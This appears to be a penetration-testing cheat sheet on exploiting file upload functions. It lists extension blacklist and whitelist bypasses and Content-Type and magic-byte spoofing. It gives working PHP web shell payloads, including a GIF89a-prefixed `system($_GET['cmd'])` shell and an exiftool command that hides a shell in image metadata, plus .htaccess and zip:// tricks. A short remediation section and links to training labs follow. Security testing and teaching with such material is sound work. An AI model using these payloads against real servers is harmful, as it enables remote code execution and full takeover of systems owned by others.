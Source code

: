 # File uploads

File upload functions can be used as a powerful vector for a number of high-severity attacks. 

## Steps

* Browse the site and find each upload functionality.
* Start with basic test by uploading a webshell using Weevely.
* If that fails, try the bypasses. If a bypass is successful, exploit further, or try another.
* Make report.

## Blacklisting bypass

Find the upload request, send it to Repeater and test which extension for the file is blacklisted by changing the `filename=` parameter:

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: application/x-php
```

|          Extension          | Try                                      |
|:---------------------------:|:-----------------------------------------|
|             PHP             | .phtm, phtml, .phps, .pht, .php2, .php3, |
|                             | .php4, .php5, .shtml, .phar, .pgif, .inc |
|             ASP             | asp, .aspx, .cer, .asa                   |
|             Jsp             | .jsp, .jspx, .jsw, .jsv, .jspf           |
|         Coldfusion          | .cfm, .cfml, .cfc, .dbm                  |
| Using random capitalization | .pHp, .pHP5, .PhAr                       |

Find more in PayloadAllThings. If successful, exploit further, or try another type of validation or bypass.

## Whitelisting bypass

Try these extensions on the `filename=` parameter:

    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg 
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.php#.png
    file.
    .html

## Content-Type validation

Change the `Content-Type: application/x-php` or `Content-Type : application/octet-stream` to `Content-Type: image/png` or `Content-Type: image/gif` or `Content-Type: image/jpg`.

## Content-Length validation

For `Content-Type: application/x-php`, try a small file payload:

    <?=`$_GET[x]`?>   
    <?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

If that works, try a better shell ...

## Magic bytes

Change `Content-Type: application/x-php` to `Content-Type: image/gif` and add the 
	 text `GIF89a;` before the shell-code.

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```

See [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Magic bytes and metadata shell

Bypass `Content-Type` checks by setting the value of the `Content-Type` header to `image/png`, `text/plain`, `application/octet-stream`, and create a shell using the metadata using tool exiftool:

    exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

Try uploading the modified `img.jpg`.

## Uploading configuration files

Try, for example, uploading a `.htaccess` file [htshells](https://github.com/wireghoul/htshells) or a `.config` file. Code can be appended at the end of the file.

For example, uploading a `.htaccess` file with `AddType application/x-httpd-php .l33t`, instructs the Apache HTTP Server to execute PNG images as though they were PHP scripts. After that, upload a php webshell file with extension `.l33t`.

## Zip slip

If a site accepts `.zip` files, upload `.php` by compressing it into `.zip` and uploading it. Then visit `target.com/path?page=zip://path/file.zip%23rce.php`.

## Escalation

The impact of file upload vulnerabilities generally depends on two key factors:

* Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
* What restrictions are imposed on the file once it has been successfully uploaded.

What can you achieve by exploiting file-upload: Remote code execution, SSRF, XSS, LFI, XXE, phishing, parameter pollution, disclosure of internal paths, SQL injection, DoS attack, etcetera:

|        Extension(s)        |               Impact               |
|:--------------------------:|:----------------------------------:|
| ASP, ASPX, PHP5, PHP, PHP3 |           Webshell, RCE            |
|            SVG             |       Stored XSS, SSRF, XXE        |
|            GIF             |          Stored XSS, SSRF          |
|            CSV             |           CSV injection            |
|            XML             |                XXE                 |
|            AVI             |             LFI, SSRF              |
|          HTML, JS          | HTML injection, XSS, Open redirect |
|         PNG, JPEG          |      Pixel flood attack (DoS)      |
|            ZIP             |          RCE via LFI, DoS          |
|         PDF, PPTX          |          SSRF, BLIND XXE           |
|            SCF             |                RCE                 |

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as `.php` and `.jsp`) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a webshell, effectively granting them full control over the server.

## Portswigger labs

* [Remote code execution via web shell upload](../burp/upload/1.md)
* [Web shell upload via Content-Type restriction bypass](../burp/upload/2.md)
* [Web shell upload via path traversal](../burp/upload/3.md)
* [Web shell upload via extension blacklist bypass](../burp/upload/4.md)
* [Web shell upload via obfuscated file extension](../burp/upload/5.md)
* [Remote code execution via polyglot web shell upload](../burp/upload/6.md)
* [Web shell upload via race condition](../burp/upload/7.md)
* [Race conditions](../techniques/race.md)

## Remediation

* Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
* Do not upload files to the server's permanent filesystem until they have been fully validated.
* If uploaded files are downloadable by users, supply an accurate non-generic `Content-Type` header, the `X-Content-Type-Options: nosniff` header, and also a `Content-Disposition` header that specifies that browsers should handle the file as an attachment.
* Enforce a size limit on uploaded files (for defense-in-depth, this can be implemented both within application code and in the web server’s configuration).
* Reject attempts to upload archive formats such as ZIP.
* As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

## Resources

* [Portswigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
* [OWASP:Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
* [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [Weevely](https://www.blackhatethicalhacking.com/tools/weevely/)